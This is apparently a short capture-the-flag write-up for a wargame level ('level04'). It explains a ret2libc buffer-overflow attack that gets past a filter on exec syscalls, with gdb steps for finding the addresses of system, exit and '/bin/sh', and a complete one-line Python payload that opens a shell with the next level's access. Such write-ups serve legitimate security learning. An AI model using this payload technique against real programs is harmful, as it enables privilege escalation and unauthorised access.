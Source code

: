 We can see that the program watches for exec syscalls, so we cannot use our usual shellcode. One to bypass this is to use a ret2libc

lets do a ret to libc attack

get addresses through gdb

create and compile executable which calls system

$ scp -P 4242 Ressources/getgotinfo.c level04@192.168.56.101:/tmp


$ (gdb) p system

$ (gdb) p exit

now get the address of "/bin/sh" in libc

$ find START_ADDR, END_ADDR, "/bin/sh"

we use gdb to find that the offset is 156. we now have everything we need to craft our exploit

$ (python -c 'print "i" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]' ; cat) | ./level04

we now have a shell with level05 access
